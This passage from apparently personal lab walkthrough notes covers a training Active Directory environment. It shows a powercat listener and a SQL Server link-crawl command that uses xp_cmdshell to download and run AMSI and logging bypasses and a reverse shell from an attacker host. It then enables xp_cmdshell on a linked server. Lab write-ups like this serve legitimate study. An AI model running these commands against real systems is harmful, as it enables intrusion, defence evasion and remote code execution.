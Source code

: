 ```powershell
PS C:\Auditor> ipmo .\powercat.ps1
PS C:\Auditor> powercat -l -v -p 443 -t 1000
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```
- Then we will execute the command to get the reverse shell on the target server.
```powershell
PS C:\Auditor> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.57/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.57/amsibypasscrtp.txt);iex (iwr -UseBasicParsing http://192.168.100.57/Invoke-PowerShellTcp.ps1)"''' -QueryTarget db-sqlprod
```
- On our listener, we can will get a call back from the target server (we might need to press "Enter" a few times).
```powershell
VERBOSE: Connection from [192.168.23.25] port  [tcp] accepted (source port 51545)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...
Windows PowerShell running as user MSSQLSERVER on DB-SQLPROD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select Name, Domain

Name       Domain
----       ------
DB-SQLPROD db.local
```
- We have now access to `db.local` which we can start enumerating at [[2. Lab Walkthrough/7th Forest (db.local)/db.local/1. Domain Enumeration|1. Domain Enumeration]].
- We noticed from [[2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration|1. Domain Enumeration]] that the link from `DB-SQLPOD` to `DB-SQLSRV` is configured to use `sa`. This means that we can enable `xp_cmdshell` on `DB-SQLSRV` from the reverse shell on `DB-SQLPOD` and be able to execute commands there as well.
```powershell
PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

PS C:\Windows\system32> Import-Module : The specified module 'SQLASCmdlets' was not loaded because no valid module file was found in any
module directory.
At C:\Program Files (x86)\Microsoft SQL Server\140\Tools\PowerShell\Modules\SQLPS\SqlPsPostScript.ps1:18 char:1
+ Import-Module SQLASCmdlets -ErrorAction SilentlyContinue -Global
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (SQLASCmdlets:String) [Import-Module], FileNotFoundException
    + FullyQualifiedErrorId : Modules_ModuleNotFound,Microsoft.PowerShell.Commands.ImportModuleCommand

PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

PS C:\Windows\system32> PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""
PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```
- From `STUDENT57` we can now check if we have OS command execution privileges at `DB-SQLSRV`.
```powershell
PS C:\Auditor> Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query "exec master..xp_cmdshell 'whoami'"
```